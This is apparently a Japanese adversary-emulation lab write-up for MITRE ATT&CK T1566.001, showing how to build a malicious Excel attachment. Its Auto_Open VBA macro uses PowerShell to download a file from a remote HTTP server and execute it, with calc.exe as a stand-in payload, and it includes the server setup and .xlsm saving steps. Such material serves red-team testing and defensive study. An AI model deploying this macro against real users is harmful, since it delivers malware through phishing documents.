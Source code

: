# T1566.001 - Phishing Spearphishing Attachment

Phishing Spearphishing Attachment
-------------

MS Office VBA Macro によるリモートファイルの実行について記載します。

|  Type  | Description   |
|:---|:---|:---|
|  ID  |  T1566.001  |
|  Tactic  |  Initial Access |
|  Techniques  |  Phishing  |
|  Sub-techniques  |  Spearphishing Attachment |

VBA マクロを操作するために、リボンの設定から「開発」にチェックを入れます。

![T1566.001-1](images/T1566.001-1.png)

追加された開発タブからVisual Basic を選択し、VBA プロジェクトから標準モジュールを挿入します。

![T1566.001-2](images/T1566.001-2.png)

ここではリモート端末にホストされた悪意のあるファイル相当の calc.exe ファイルを取得し実行するマクロを実装します。

```
Sub Auto_Open()

Set ws = CreateObject("WScript.Shell")

ws.Run "cmd.exe /c powershell.exe -Command (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.254:8080/calc.exe ','%USERPROFILE%\Desktop\malicious.exe'); %USERPROFILE%\Desktop\malicious.exe", 0, True

End Sub
```

今回のケースではリモート端末として Kali Linux を用意し、別途 Windows から取得した calc.exe を配置しています。
簡単のために Simple HTTP Server を用いて GET の待ち受けを行います。

![T1566.001-3](images/T1566.001-3.png)

```
$ python2 -m SimpleHTTPServer 8080
```

VBA マクロが正しく動作するかの確認は、緑の実行ボタンから確認することができます。

![T1566.001-4](images/T1566.001-4.png)

リモート端末側では calc.exe が取得される様子が確認できます。

![T1566.001-5](images/T1566.001-5.png)

最後に、MS Excel をマクロが動作する xlsm 形式で保存します。

ファイルをオープンすると「コンテンツの有効化」が求められ、クリックすることでcalc.exe ファイルの取得と実行が行われます。

![T1566.001-6](images/T1566.001-6.png)
